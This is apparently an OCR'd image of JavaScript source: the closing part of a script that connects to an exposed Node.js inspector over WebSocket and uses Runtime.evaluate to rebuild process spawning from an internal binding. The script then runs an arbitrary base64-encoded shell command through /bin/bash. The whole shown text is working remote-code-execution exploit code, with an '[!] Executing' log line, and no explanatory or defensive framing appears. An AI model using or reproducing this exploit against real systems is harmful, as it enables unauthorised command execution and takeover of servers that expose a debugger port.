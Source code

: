 ```js
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 1,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onmessage = (event) => {
    // console.log(event)
  }

  socket.onclose = (event) => {
    // console.log(event)
    if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```
